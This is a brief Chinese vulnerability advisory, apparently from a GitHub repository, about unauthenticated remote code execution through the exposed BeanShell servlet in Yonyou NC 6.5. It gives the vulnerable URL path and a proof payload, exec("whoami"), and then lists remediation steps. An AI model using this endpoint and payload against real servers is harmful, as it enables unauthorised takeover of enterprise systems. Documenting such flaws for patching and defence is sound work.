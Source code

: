 ### 一 漏洞描述
用友NC是面向集团企业的管理软件，其在同类市场占有率中达到亚太第一。  
用友NC由于对外开放了BeanShell接口，攻击者可以在未授权的情况下直接访问该接口，并构造恶意数据执行任意代码从而获取服务器权限。

时间: 2021-06-25  
影响范围: 用友NC6.5版本  

### 二 漏洞利用
访问: /servlet/~ic/bsh.servlet.BshServlet  
![img.png](img.png)
执行: exec("whoami");

### 三 漏洞修复
1 打补丁
> http://umc.yonyou.com/ump/querypatchdetailedmng? PK=18981c7af483007db179a236016f594d37c01f22aa5f5d19  

2 设置用友访问白名单
3 升级
